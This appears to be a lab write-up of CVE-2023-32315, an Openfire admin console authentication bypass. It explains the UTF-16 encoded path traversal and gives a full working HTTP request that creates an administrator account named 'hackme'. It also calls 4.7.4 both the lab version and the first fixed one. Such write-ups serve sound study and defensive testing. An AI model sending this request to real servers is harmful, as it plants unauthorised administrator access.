


Openfire Admin Console Authentication Bypass (CVE-2023-32315)¶
Openfire is a real time collaboration (RTC) server licensed under the Open Source Apache License. It uses the only widely adopted open protocol for instant messaging, XMPP (also called Jabber).
In the version prior to 4.7.4 and 4.6.7, Openfire's administrative console (the Admin Console), a web-based application, was found to be vulnerable to a path traversal attack via the setup environment. This permitted an unauthenticated user to use the unauthenticated Openfire Setup Environment in an already configured Openfire environment to access restricted pages in the Openfire Admin Console reserved for administrative users.
References:
- https://github.com/igniterealtime/Openfire/security/advisories/GHSA-gw42-f939-fhvm
- https://mp.weixin.qq.com/s/EzfB8CM4y4aNtKFJqSOM1w
Vulnerable Environment¶
Execute following command to start a Openfire server 4.7.4:
docker compose up -d
After the server is started, open the link http://your-ip:9090 then you will be redirected to login page if you don't have the authentication.
Exploit¶
More than a decade ago, an path traversal issue was found in Openfire admin console, CVE-2008-6508. Attackers are able to use the /setup/setup-/../../[page].jsp to bypass the authentication checks and visit arbitratry page without knowning the admin username and password.
Since then the path traversal protections were already in place to protect against exactly this kind of attack.
A later upgrade of the embedded webserver included support for non-standard URL encoding of UTF-16 characters. The path traversal protections in place in Openfire were not updated to include protection against this new encoding. So attackers are able to use the /setup/setup-/%u002e%u002e/%u002e%u002e/[page].jsp to bypass the path traversal protection again.
To exploit this issue, the first step is to create a new administrator through following request:
GET /setup/setup-s/%u002e%u002e/%u002e%u002e/user-create.jsp?csrf=csrftoken&username=hackme&name=&email=&password=hackme&passwordConfirm=hackme&isadmin=on&create=Create+User HTTP/1.1
Host: localhost:9090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36
Connection: close
Cache-Control: max-age=0
Cookie: csrf=csrftoken
Although an exception is raised in response but an account with both username and password "hackme" is created.

Then log in to the admin console with this account, and you can see that hackme is already an administrator.
